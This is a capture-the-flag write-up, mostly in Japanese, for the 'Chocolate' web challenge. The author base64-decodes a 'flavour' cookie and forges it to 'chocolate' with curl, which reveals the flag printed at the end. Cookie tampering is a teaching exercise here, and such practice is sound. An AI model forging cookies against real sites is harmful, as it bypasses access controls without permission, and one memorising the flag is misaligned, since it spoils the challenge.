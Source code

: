 # Chocolate:Web:400pts
My friend is only willing to eat chocolate. Any other food he rejects.  
![cookies.jpg](images/cookies.jpg)  
Mon ami ne veut manger que du 'chocolate'. Toute autre saveur il refuse.  
[http://143.198.224.219:11111/](http://143.198.224.219:11111/)  
Hint  
You just need to change the cookie value to the correct value.  

# Solution
URLが渡されるのでcurlでアクセスしてみる。  
```bash
$ curl http://143.198.224.219:11111/
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Oreo</title>
</head>
<body>
    <div> My nephew is a fussy eater and is only willing to eat chocolate oreo. Any other flavour and he throws a tantrum.</div>
</body>
</html>
```
chocolateしか食べないようだ。  
その他ページもないので、ヘッダ情報を確認する。  
```bash
$ curl http://143.198.224.219:11111/ --head
HTTP/1.1 200 OK
X-Powered-By: Express
Set-Cookie: flavour=c3RyYXdiZXJyeQ%3D%3D; Path=/
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Sat, 05 Mar 2022 20:07:39 GMT
ETag: W/"14f-17f5bb1e2f8"
Content-Type: text/html; charset=UTF-8
Content-Length: 335
Date: Wed, 23 Mar 2022 11:01:47 GMT
Connection: keep-alive
Keep-Alive: timeout=5

```
それらしきものがCookieに入っているのでデコードする。  
```bash
$ echo "c3RyYXdiZXJyeQ==" | base64 -d
strawberry
```
これをchocolateにすればよさそうだ。  
```bash
$ echo -n "chocolate" | base64
Y2hvY29sYXRl
$ curl http://143.198.224.219:11111/ -H "Cookie: flavour=Y2hvY29sYXRl"
OFPPT-CTF{C00k13s_n33d_ch0c0l4t3_fl4v0r}
```
flagが得られた。  

## OFPPT-CTF{C00k13s_n33d_ch0c0l4t3_fl4v0r}